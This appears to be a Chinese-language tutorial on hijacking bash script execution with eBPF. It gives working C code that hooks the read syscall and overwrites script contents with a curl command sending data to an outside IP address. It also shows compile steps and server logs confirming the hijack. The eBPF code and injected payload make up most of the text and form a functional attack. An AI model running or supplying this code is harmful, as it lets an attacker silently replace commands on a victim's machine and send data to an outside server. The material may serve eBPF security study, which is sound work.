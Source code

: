 
## Bash Hijack Step by Step

### Bash劫持原理  
攻击目标：让目标机器上任意一个bash命令，都能被我替换和劫持。  

现在创建一个测试bash文件:
```
# 1：创建测试a.sh
$ echo 'echo "eBPF payload-------------------------------------"' > a.sh

# 2. 观察运行情况
$ strace bash a.sh
...
read(255, "echo \"eBPF payload--------------"..., 57) = 57
newfstatat(1, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x3), ...}, AT_EMPTY_PATH) = 0
write(1, "eBPF payload--------------------"..., 50eBPF payload-------------------------------------
) = 50
read(255, "", 57)
...
```
发现其行为是不断的从bash文件read，然后再去执行。
并且将文件从fd=3复制到fd=255，dup2(3, 255)。因此我们只需要在read exit的时候，将读到的内容改掉。  

### eBPF劫持程序开发  

1. 写eBPF代码，在read退出的时候替换内容  

```c
SEC("raw_tracepoint/sys_exit")
int raw_tp_sys_exit(struct bpf_raw_tracepoint_args *ctx) {
	if (is_target_process()) return 0;

	// https://elixir.bootlin.com/linux/v5.4.170/source/include/trace/events/syscalls.h#L18
	unsigned long syscall_id;
	struct pt_regs *regs = (struct pt_regs *)(ctx->args[0]);
	bpf_probe_read(&syscall_id, sizeof(syscall_id) , &regs->orig_ax);

	switch (syscall_id)
	{
	case 0:
		handle_exit_read(ctx);
		break;
	}

	return 0;
}
```

在handle_exit_read中修改bash内容：  
```c
static __inline int handle_exit_read(struct bpf_raw_tracepoint_args *ctx) {
	int tick = fetch_global_int(GLOBAL_TICK1);
	save_global_val(GLOBAL_TICK1, tick);

	struct pt_regs *regs = (struct pt_regs *)(ctx->args[0]);

	int read_bytes = 0;
	bpf_probe_read(&read_bytes, sizeof(read_bytes),&regs->ax);

	int read_fd = 0;
	bpf_probe_read(&read_fd , sizeof(read_fd),&regs->di);
	// bpf_log("read fd: %d n bytes: %d\n", read_fd, read_bytes);

	if (read_fd != 255) {
		goto exit;
	}

	char *buffer = NULL;
	bpf_probe_read(&buffer , sizeof(buffer) , &regs->si);
	// bpf_log("read data: %s\n", buffer);

	char PAYLOAD[] = "curl -d uid=Local http://202.112.238.191 #";
	int ret = -1;
	if(read_bytes > sizeof(PAYLOAD)){
		bpf_log("try to send request---------------------------\n");
		ret = bpf_probe_write_user((char *)(buffer), PAYLOAD, sizeof(PAYLOAD));
	}

exit:
	bpf_log("handle_exit_read: %d %d\n", tick, ret);
	return 0;
} 
```

2. 测试  
a. terminal-1中启动eBPF劫持程序  
```
$ cd getting-start/1-bash
$ bash compile.sh
```

b. terminal-2中启动测试bash
```
# $ echo 'echo "eBPF payload-------------------------------------"' > a.sh

# 可以看到被劫持
$ bash a.sh
Success to visit Server. Your IP is 58.19.0.203
```

去网站上查看结果：  
http://202.112.238.191/log?appid=ebpf-sec-2022-1a 
```
2022-07-11 20:16:36,619 record-server INFO Get User: [Local] IP: [58.19.0.203]
2022-07-11 20:16:43,853 record-server INFO Get User: [Local] IP: [58.19.0.203]
```